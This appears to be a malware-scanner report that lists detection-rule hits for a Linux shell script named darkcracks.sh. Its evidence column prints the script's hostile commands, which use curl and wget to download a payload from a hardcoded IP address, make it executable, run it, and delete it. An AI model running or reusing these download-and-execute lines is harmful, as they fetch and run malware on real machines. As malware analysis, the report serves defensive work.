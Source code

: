 ## linux/2024.Darkcracks/darkcracks.sh [😈 CRITICAL]

|   RISK   |                                                                               KEY                                                                               |                          DESCRIPTION                           |                                                                                                                                                                                                                                                                                                                                                                                                                                                                      EVIDENCE                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
|----------|-----------------------------------------------------------------------------------------------------------------------------------------------------------------|----------------------------------------------------------------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| CRITICAL | [c2/tool_transfer/shell](https://github.com/chainguard-dev/malcontent/blob/main/rules/c2/tool_transfer/shell.yara#tool_chmod_relative_run_tiny)                 | fetch file, make it executable, and run it                     | [./agr](https://github.com/search?q=.%2Fagr&type=code)<br>[./wdvsh agr](https://github.com/search?q=.%2Fwdvsh+agr&type=code)<br>[cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code)<br>[cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)<br>[cd /var/run](https://github.com/search?q=cd+%2Fvar%2Frun&type=code)<br>[chmod +x ./wdvsh](https://github.com/search?q=chmod+%2Bx+.%2Fwdvsh&type=code)<br>[curl http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v -o agr](https://github.com/search?q=curl+http%3A%2F%2F179.191.68.85%3A82%2Fvendor%2Fsebastian%2Fdiff%2Fsrc%2FException%2Fj8UgL3v+-o+agr&type=code)<br>[wget http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v -O agr](https://github.com/search?q=wget+http%3A%2F%2F179.191.68.85%3A82%2Fvendor%2Fsebastian%2Fdiff%2Fsrc%2FException%2Fj8UgL3v+-O+agr&type=code) |
| CRITICAL | [evasion/file/location/chdir_unusual](https://github.com/chainguard-dev/malcontent/blob/main/rules/evasion/file/location/chdir-unusual.yara#cd_val_obsessive)   | changes directory to multiple unusual locations                | [cd /;](https://github.com/search?q=cd+%2F%3B&type=code)<br>[cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code)<br>[cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| CRITICAL | [evasion/self_deletion/run_and_delete](https://github.com/chainguard-dev/malcontent/blob/main/rules/evasion/self_deletion/run_and_delete.yara#run_sleep_delete) | run executable, sleep, and delete                              | [./wdvsh agr](https://github.com/search?q=.%2Fwdvsh+agr&type=code)<br>[chmod +x ./wdvsh](https://github.com/search?q=chmod+%2Bx+.%2Fwdvsh&type=code)<br>[rm ./agr](https://github.com/search?q=rm+.%2Fagr&type=code)<br>[rm ./wdvsh](https://github.com/search?q=rm+.%2Fwdvsh&type=code)<br>[sleep 3](https://github.com/search?q=sleep+3&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| CRITICAL | [net/download/fetch](https://github.com/chainguard-dev/malcontent/blob/main/rules/net/download/fetch.yara#curl_download_ip)                                     | Invokes curl to download a file from an IP                     | [curl http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v -o](https://github.com/search?q=curl+http%3A%2F%2F179.191.68.85%3A82%2Fvendor%2Fsebastian%2Fdiff%2Fsrc%2FException%2Fj8UgL3v+-o&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| HIGH     | [c2/addr/ip](https://github.com/chainguard-dev/malcontent/blob/main/rules/c2/addr/ip.yara#http_hardcoded_ip)                                                    | hardcoded IP address within a URL                              | [http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v](http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v)<br>[http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/pQ1iM9hd-x64-musl](http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/pQ1iM9hd-x64-musl)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| MEDIUM   | [exec/shell/exec](https://github.com/chainguard-dev/malcontent/blob/main/rules/exec/shell/exec.yara#calls_shell)                                                | executes shell                                                 | [/bin/bash](https://github.com/search?q=%2Fbin%2Fbash&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| MEDIUM   | [fs/file/make_executable](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/file/file-make_executable.yara#chmod_executable_shell)                | makes file executable                                          | [chmod +x ./wdvsh](https://github.com/search?q=chmod+%2Bx+.%2Fwdvsh&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| MEDIUM   | [fs/path/relative](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/path/relative.yara#relative_path_val)                                        | references and possibly executes relative path                 | [./agr](https://github.com/search?q=.%2Fagr&type=code)<br>[./wdvsh](https://github.com/search?q=.%2Fwdvsh&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| MEDIUM   | [fs/path/root](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/path/root.yara#root_path_val)                                                    | path reference within /root                                    | [/root](https://github.com/search?q=%2Froot&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| MEDIUM   | [fs/permission/modify](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/permission/permission-modify.yara#chmod)                                 | [modifies file permissions](https://linux.die.net/man/1/chmod) | [chmod](https://github.com/search?q=chmod&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| LOW      | [fs/path/var](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/path/var.yara#var_path)                                                           | path reference within /var                                     | [/var/run](https://github.com/search?q=%2Fvar%2Frun&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| LOW      | [net/url/embedded](https://github.com/chainguard-dev/malcontent/blob/main/rules/net/url/embedded.yara#http_url)                                                 | contains embedded HTTP URLs                                    | [http://179.191.68.85](http://179.191.68.85)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| LOW      | [process/chdir](https://github.com/chainguard-dev/malcontent/blob/main/rules/process/chdir.yara#chdir_shell)                                                    | changes working directory                                      | [cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code)<br>[cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)<br>[cd /var/run](https://github.com/search?q=cd+%2Fvar%2Frun&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |

